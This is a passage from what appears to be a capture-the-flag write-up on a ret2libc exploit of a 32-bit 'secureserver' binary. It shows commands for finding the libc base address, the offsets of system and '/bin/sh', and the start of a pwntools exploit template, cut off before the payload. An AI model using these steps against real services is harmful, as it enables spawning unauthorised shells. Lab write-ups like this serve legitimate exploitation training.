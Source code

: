    6. Get the _base address_ for `libc` library 
      `ldd secureserver` -> 0xf7dba000 
   
   7. Get the _offset_ to `system`
      `readelf -s /lib/i386-linux-gnu/libc.so.6 |  grep system` -> 00045040
     + Address to `system` is (based off step 7 & 8):
      - 0xf7dba000 + 0x00045040 = 0xf7dff040

   8. Find the _offset_ to `"/bin/sh"`
      `string -a -t x /lib/i386-linux-gnu/libc.so.6 |  grep "/bin/sh"` -> 18c338
   
### 9.  32 bit version of exploit script 
      ```
      from pwn import *
      
      
      # Allows you to switch between local/GDB/remote from terminal
      def start(argv=[], *a, **kw):
          if args.GDB:  # Set GDBscript below
              return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
          elif args.REMOTE:  # ('server', 'port')
              return remote(sys.argv[1], sys.argv[2], *a, **kw)
          else:  # Run locally
              return process([exe] + argv, *a, **kw)
      
      
      # Specify GDB script here (breakpoints etc)
      gdbscript = '''
      init-pwndbg
      continue
      '''.format(**locals())
      
      
      # Binary filename
      exe = './secureserver'
      # This will automatically get context arch, bits, os etc
      elf = context.binary = ELF(exe, checksec=False)
      # Change logging level to help with debugging (error/warning/info/debug)
      context.log_level = 'debug'
      
      # ===========================================================
      #                    EXPLOIT GOES HERE
      # ===========================================================
      
